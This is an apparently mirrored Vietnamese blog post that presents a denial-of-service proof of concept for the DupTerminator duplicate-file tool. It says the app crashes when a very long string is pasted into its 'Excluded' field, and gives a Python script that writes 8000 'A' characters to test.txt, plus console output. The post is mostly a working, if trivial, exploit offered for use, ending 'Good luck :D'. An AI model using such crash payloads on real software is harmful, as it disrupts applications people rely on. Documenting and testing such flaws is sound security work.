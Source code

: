 ```yaml
---
title: DupTerminator 1.4.5639.37199 - Denial of Service (PoC)
date: 1/6/2021
layout: single

--- 
```



[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org/)

## Mô Tả 

DupTerminator dễ bị điều kiện DoS khi một danh sách dài các ký tự đang được sử dụng trong hộp văn bản trường "Bị loại trừ". Khai thác thành công sẽ khiến ứng dụng ngừng hoạt động. Tôi đã có thể kiểm tra khai thác này trên Windows 10.



# Mã
## Python
---
```python
# -*- coding: utf-8 -*- 
#!/usr/bin/env python
buffer = "\x41" * 8000

try:
    f = open("test.txt","w")  # Có thể test những file khác
    f.write(buffer)
    f.close()
    print ("File created")
except:
    print ("File cannot be created")
```

```
C:\Users\Administrator\Documents\python>python 15.py
File created
```


## Sau đó file test.txt đã xuất hiện trong tệp Documents

## Chúc May Mắn :D
